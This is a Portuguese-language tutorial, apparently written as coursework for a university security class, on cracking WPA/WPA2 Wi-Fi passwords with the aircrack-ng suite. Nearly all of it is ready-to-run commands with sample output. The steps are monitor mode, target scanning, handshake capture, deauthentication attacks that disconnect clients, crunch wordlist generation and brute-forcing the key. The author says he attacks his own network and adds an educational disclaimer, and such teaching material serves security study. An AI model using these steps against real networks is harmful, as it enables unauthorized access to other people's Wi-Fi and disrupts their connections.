# Tutorial - Wi-Fi Cracking WPA/WPA2 (Brute Force)

## Introdução
Este tutorial tem o propósito de ilustrar, de maneira simplificada, de como ter o acesso de uma rede Wifi protegida com os métodos de criptográfia WPA/WPA2. Este tutorial foi desenvolvido como trabalho final para a mateŕia de Segurança e Auditoria de Sistemas, na Universidade Tecnológica Federal do Paraná (UTFPR-CP). Em um breve resumo, faremos um ataque de força bruta em cima de uma captura de pacotes, obtidos monitorando o tráfego da rede. Esse ataque é realizado com uma lista de possíveis senhas daquela rede Wifi.

__ATENÇÃO: Este tutorial foi realizado para fins educacionais, e não deveser utilizada para atividades ilegais. O autor não é responsabilizado pelo uso indevido do mesmo__

## Pré requisitos

Neste tutorial será necessário que você:
- Esteja usando uma distro linux baseada no debian, de preferência o [Kali linux](https://www.kali.org/).
- Ter o [Aircrack-ng](http://aircrack-ng.org/) e o Crunch instalado em seu computador. Para instalar, use o seguintes comandos:
	Para instalar o Aircrack-ng 
	 ```
	 sudo apt-get install aircrack-ng
	 ```
    Para instalar o Crunch
    ```
    sudo apt-get install crunch
    ```
- Ter uma placa de rede sem fio que suporta o modo monitor. [Aqui](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) uma lista das placas de redes sem fio que suportam o modo monitor (Normalmente os todos notebooks suportam o modo monitor.)

## Tutorial

### Modo monitor
As placas de rede permitem alguns modos diferentes de operação. que são eles: *Master* (Atua como access point), *Managed* (cliente padrão), *Ad hoc*, *Mesh*, *Repeater*, *Promiscuous*, e o *Monitor mode*. Utilizaremos nossa placa de rede no modo monitor, em que ela permite que seu computador monitore todo o tráfego recebido da rede sem fio. Ao contrário do modo promíscuo, o modo monitor consegue capturar os pacotes sem estar associado a um access point.
Primero passo, precisamos listar as interfaces de rede de seu computador, para isso digite o seguinte comando:

```bash
sudo airmon-ng
```
Com isso, aparecerá algo parecido com isto em seu terminal:
```
Interface   	Chipset	        	Driver
wlan0	    	Atheros AR9485	    ath9k - [phy0]
```

Caso não liste nada, sua placa de rede não suporta o modo monitor. 

No meu caso, o nome da minha interface wireless é `wlan0`. No seu caso pode ser diferente, mas para o termino deste tutorial iremos utilizar a `wlan0`. Para iniciarmos o modo monitor basta digitar no terminal o seguinte comando:

```
sudo airmon-ng start wlan0
```

Neste momento, poderá dar um erro avisando que alguns processos que estão rodando poderão causar problemas. Para isso, você precisará usar o seguinte comando:

```
sudo airmon-ng check kill
```

Para confirmar se temos o modo monitor iniciado, é só utilizar o seguinte comando no terminal:

```
iwconfig
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:
```
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
lo        no wireless extensions.

enp2s0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

### Encontrando seu alvo

Para iniciarmos a escuta da rede, utilizaremos o seguinte comando abaixo:

```bash
sudo airodump-ng mon0
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:

```
 CH  4 ][ Elapsed: 8 s ][ 2017-11-19 00:09                                         
                                                                                                                                                                         
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                         
 EC:4D:47:B3:F5:88  -65       90     3579  346   1  54e  WPA2 CCMP   PSK  MinhaCasa                                                                                    
 A0:F3:C1:BC:9E:2B  -85       67        0    0   1  54e. WPA2 CCMP   PSK  Sadi Isper                                                                                     
                                                                                                                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                               
                                                                                                                                                                          
 (not associated)   8C:FA:BA:E4:A3:69  -80    0 - 1      0        2                                                                                                       
 (not associated)   C0:21:0D:DD:30:DF  -89    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  24:F5:AA:66:5A:54   -1    0e- 0      0     1878                                                                                                       
 EC:4D:47:B3:F5:88  F8:E0:79:C2:DE:17  -40    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  1C:87:2C:93:1C:AC  -53    0e- 0   1101     1716                                                                                                       
 EC:4D:47:B3:F5:88  14:1A:A3:FC:E7:E9  -78    0 - 6      0        1    
```

Como este tutorial foi feito para fins educacionais, a rede que iremos atacar é a que tem ESSID (nome da rede Wifi) é a "MinhaCasa", por motivos de eu ser o dono da rede. Para o próximo passo, precisaremos de duas informações desta etapa, o BSSID (Endereço MAC da rede) e o canal em que está sendo utilizado. No nosso caso, as informações serão as seguinte:
 - BSSID: `EC:4D:47:B3:F5:88`
 - CH (canal): `1`

### Capturando o Handshake

As redes que utiizam criptográfia WPA/WPA2 utilizam o "4-way handshake". O que precisamos saber neste momento é que para a conexão entre access point e cliente,é necessário uma série de quatro pacotes é usada para negociar uma chave criptográfica, que será utilizada para criptografar o processo de autenticação. Coletando estes pacotes, podemos conseguir a senha da rede Wifi. Para começar a captura dos pacotes, utilizaremos os seguintes comandos:
    
```bash
## -c: Canal em que se encontra a rede
## --bssid: Endereço MAC do access point
## -w: Diretório que ficará salvo a captura dos pacotes

sudo airodump-ng -c 1 --bssid EC:4D:47:B3:F5:88 -w . mon0
```Para que a conexão entre cliente e access point seja desconectada, nos passaremos pelo access point e enviaremos frames (unidade de dados na camada de enlace) para os clientes. Os principais tipos de frames são os *Data Frames*(para transmissão de dados), *Control Frames*(controle de acesso do meio) e os *Management frames*(possuem informações de gerenciamento). Dentro dos *Management frames*, existe um frame que tem o nome de *Deauthentication*, que serve para desconectar de forma segura os dispositivos na rede. Como as informações estão sendo capturadas no passo anterior, iremos desautenticar o dispositivo da rede (faremos este passo em outro terminal), utilizando este frame. Utilizaremos o seguinte comando para que isso aconteça:

```bash
## -0 2 : enviará dois pacotes "deauth". (Isso irá desconectar o cliente da rede wifi por alguns instantes)
## -a: Endereço MAC do access point
## -c: O Endereço MAC do dispositivo em específico, que será utilizado para obter o "Handshake". 
## Caso queira mandar para todos os dispositivos da rede, é só não utilizar o argumento -c, como no exemplo abaixo:
sudo aireplay-ng -0 2 -a EC:4D:47:B3:F5:88 mon0
```

Caso conseguirmos os pacotes do Handshake, irá aparecer no primeiro terminal algo parecido com`WPA handshake: 00:00:00:00:00`.Portanto, podemos parar de capturar os pacotes, apertando `Ctrl+C`. Os pacotes ficaram salvos como nome de `.-01.cap`(o arquivo ficará oculto). Neste tutorial, iremos trocar o nome para 'mypackages.cap'.

### Criando a Wordlist
Na criação de uma wordlist, é interessante que se conheça o alvo atacado, criando assim uma wordlist específica para aquele alvo. Para este tutorial, criaremos uma wordlist que conterá somente números,tendo no total de 8 caracteres de tamanho.
Para criar a wordlist utilizaremos o crunch. O primeiro argumento será o número mínimo de caracteres que queremos nossa senha. O segundo argumento será o número máximo de caracteres que queremos nossa senha. O terceiro argumento será os caracteres que queremos combinar na nossa senha. Sabemos que o número mínimo de caracteres em uma senha WPA2 é de 8 caracteres, portanto criaremos uma wordlist que cobrirá todos os números de 8 caracteres (00000000 até 99999999). Para isso o usaremos o seguinte comando no terminal:

```bash
## -o: nome do arquivo de saída

crunch 8 8 0123456789 -o mywordlist.txt
```

Para wordlist mais elaboradas, digite no terminal `man crunch`.
### Obtendo a senha

Como no passo anterior já criamos uma wordlist para o ataque, utilizaremos o seguinte comando no terminal

```bash
## -a2: Especificando que a rede é WPA2
## -b: Endereço MAC do access point 
## -w: A wordlist criada
aircrack-ng -a2 -b EC:4D:47:B3:F5:88 -w mywordlist.txt mypackages.cap
```

Neste momento, começará o ataque por força bruta nos pacotes capturados. Quando a senha na wordlist for a senha desejada, irá aparecer no terminal algo parecido com isso, informando a senha da rede Wifi:

```
                                 Aircrack-ng 1.2 beta3


                   [00:00:12] 1414 keys tested (1017.96 k/s)


                         KEY FOUND! [ 00001414 ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```
